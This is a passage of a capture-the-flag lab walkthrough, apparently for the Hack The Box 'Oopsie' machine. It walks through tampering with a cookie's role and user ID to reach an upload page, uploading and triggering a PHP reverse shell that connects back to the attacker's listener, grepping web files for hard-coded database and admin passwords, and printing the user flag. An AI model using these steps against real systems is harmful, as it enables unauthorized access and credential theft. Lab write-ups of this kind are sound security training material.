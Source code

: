 ![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/cb0c58fb-a058-4e9c-adf9-aa92f65f3cce)

Change the `role` value from `guest` to `admin` by double-clicking on it and typing in `admin`

Do the same for the `user` value: change it from the guest's `2233` to the admin's `34322`

# Navigate to the Upload Page

With the change in role and user ID, we now have access to the upload page. 

## Upload a Payload

Upload `/usr/share/webshells/php/php-reverse-shell.php` after modifying it to include your local IP, etc.
- Set up a listener on the local machine
- Run the .php payload by hitting this URL: `http://10.129.95.191/uploads/php-reverse-shell.php`
- Do a `bash -i` to get an interactive Bash prompt.

**Question:** What is the file that contains the password that is shared with the robert user?
- Use `grep` to find it: `grep -Rnw '/var/www/html/' -e 'robert'`
- `r` or `-R` is recursive ; use `-R` to search entirely: Recursive
- `n`: line number 
- `w`: match the whole word
- `e`: the pattern used during the search
- Result:
```
/var/www/html/cdn-cgi/login/db.php:2:$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

**WALK-THROUGH:** Used `cat` piped to `grep` to look for passwords... (but you have to be in the right subdir; mine was a broader approach and therefore better)
```
cd /var/www/html/cdn-cgi/login
ls
 # admin.php
 # db.php
 # index.php
 # script.js
cat * | grep -i passw*
```
Results: 
```
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```
**NOTE:** robert's password is NOT `MEGACORP_4dm1n!!` but rather `M3g4C0rpUs3r!`

## Flag: user 
- `cd` over to robert's home dir and cat the `user.txt` file:
```
robert@oopsie:~$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```
